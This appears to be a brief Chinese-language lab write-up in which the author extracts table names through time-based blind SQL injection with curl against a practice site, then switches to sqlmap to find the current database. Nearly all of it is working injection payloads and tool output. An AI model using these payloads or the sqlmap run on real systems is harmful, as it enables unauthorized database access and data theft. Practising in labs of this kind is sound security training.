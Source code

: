```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20length%28table_name%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%201%2C1)<6,sleep(2),1)--+"
长度为5

 time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20ascii%28substr%28table_name%2C1%2C1%29%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%201%2C1)<110,sleep(2),1)--+"
`m`

time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20ascii%28substr%28table_name%2C2%2C1%29%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%201%2C1)<112,sleep(2),1)--+"
p

time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20ascii%28substr%28table_name%2C3%2C1%29%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%201%2C1)<117,sleep(2),1)--+"
t

time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20ascii%28substr%28table_name%2C4%2C1%29%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%201%2C1)<116,sleep(2),1)--+"
s



```
```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20length%28table_name%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%202%2C1)<5,sleep(2),1)--+"
长度为4

time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20ascii%28substr%28table_name%2C1%2C1%29%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%202%2C1)<118,sleep(2),1)--+"
`u`



```
烦死了，直接用SQLMAP跑吧。
```
python sqlmap.py -u http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin --current-db
```
	
	Parameter: username (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: username=admin' AND SLEEP(5) AND 'Leyp'='Leyp
    ...
	current database:    'mydbs'
